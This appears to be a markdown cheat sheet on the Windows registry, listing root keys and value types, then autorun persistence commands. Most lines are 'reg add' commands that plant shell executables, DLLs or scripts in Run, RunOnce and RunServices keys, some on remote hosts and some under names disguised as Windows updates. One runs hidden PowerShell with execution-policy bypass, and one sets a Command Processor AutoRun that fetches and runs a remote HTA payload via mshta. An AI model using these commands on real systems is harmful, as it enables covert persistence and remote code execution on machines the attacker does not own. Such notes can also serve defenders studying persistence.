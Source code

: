 # Registry Key References

## Predefined Registry Root Keys Table Reference

| Predefined Registry Root Keys | Aliases | Description                                                                                                           |
| ----------------------------- | ------- | --------------------------------------------------------------------------------------------------------------------- |
| HKEY_CURRENT_USER             | HKCU    | Stores information tied to the currently logged-on user.                                                              |
| HKEY_LOCAL_MACHINE            | HKLM    | System-related information (services, scheduled tasks, etc).                                                          |
| HKEY_USERS                    | HKU     | Stores information to user accounts on the machine.                                                                   |
| HKEY_CURRENT_CONFIG           | HKCC    | Stores hardware information (deprecated)                                                                              |
| HKEY_CLASSES_ROOT             | HKCR    | COM object registration information (blended view of `HKLM\SOFTWARE\Classes` and `HKEY_USER\<SID>\SOFTWARE\Classes`). |
| HKEY_PERFORMANCE_DATA         | NaN     |                                                                                                                       |
| HKEY_DYN_DATA                 | NaN     |                                                                                                                       |

## Registry Value Types Table Reference

TODO: fill in the missing info

| Type ID | `reg.exe`     | `Set-ItemProperty` | DataType in `.reg` | WMI |
| ------- | ------------- | ------------------ | ------------------ | --- |
| 1       | REG_SZ        | String             |                    |     |
| 2       | REG_EXPAND_SZ | ExpandString       | hexadecimal(2)     |     |
| 3       | REG_BINARY    | Binary             | hexadecimal        |     |
| 4       | REG_DWORD     | DWord              | dword              |     |
| 5       | REG_MULTI_SZ  | MultiString        | hexadecimal(7)     |     |
| 11      | REG_QWORD     | QWord              | qword              |     |

## Registry Paths List

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

### HKLM

```
C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001 /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

### HKCU

```
C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /v WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\SOFTWARE\Microsoft\Command Processor /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

---
## References

- [SpectorOps: The Defender’s Guide to the Windows Registry](https://posts.specterops.io/the-defenders-guide-to-the-windows-registry-febe241abc75)

- [cra.sh: The Defender’s Guide to the Windows Registry](https://cra.sh/public_html/strlcpy3/the-defenders-guide-to-the-windows-registry)